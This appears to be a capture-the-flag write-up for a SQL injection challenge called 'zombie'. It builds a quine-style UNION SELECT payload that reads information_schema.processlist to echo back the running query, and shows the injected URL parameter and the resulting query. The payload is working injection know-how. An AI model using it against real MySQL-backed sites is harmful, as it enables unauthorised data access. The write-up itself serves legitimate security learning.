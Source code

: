 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 31
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/619f9f68-e38d-47a0-a15b-ff662242c83b)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_zombie WHERE pw='{$_GET[pw]}'
```

Similar to [ouroboros], in this challenge, we have to use a Quine in order to solve it.
However, since `ace` is being filtered out, we have to find another way of crafting our Quine.

&nbsp;

## 'information_schema.processlist`

As noted by [this documentation](https://dev.mysql.com/doc/refman/8.4/en/information-schema-processlist-table.html), in MySQL, the `info` column of the `information_schema.processlist` contains the operation that is currently being executed.

![3](https://github.com/Kunull/Write-ups/assets/110326359/883c41a1-9cb1-4b55-98b3-641f02529310)

&nbsp;

## Modified Quine

```sql
1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

- `substr(info,locate('1',info),length(info)-locate('1',info))`:
	- `locate('1', info)` finds the position of the first occurrence of the character `'1'` in the `info` column.
    - `length(info)` gives the total length of the `info` column's content.
    - `length(info)-locate('1',info)` calculates the length of the substring starting from the first occurrence of `'1'` to the end of the `info` content.
	- `substr(info, locate('1', info), length(info) - locate('1', info))` extracts this substring.
- **`from information_schema.processlist`**:   
    - This specifies the table from which the data is being selected. The `information_schema.processlist` table contains information about the currently running processes in the MySQL database server.

&nbsp;

If we provide the following URI parameter:

```
?pw=1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist %23
```

The resultant query becomes:

```sql
SELECT pw FROM prob_zombie WHERE pw='1' UNION SELECT substr(info,locate('1',info),length(info)-locate('1',info)) FROM information_schema.processlist #'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/606cc988-e99e-4db2-90fc-25387e44ccc7)
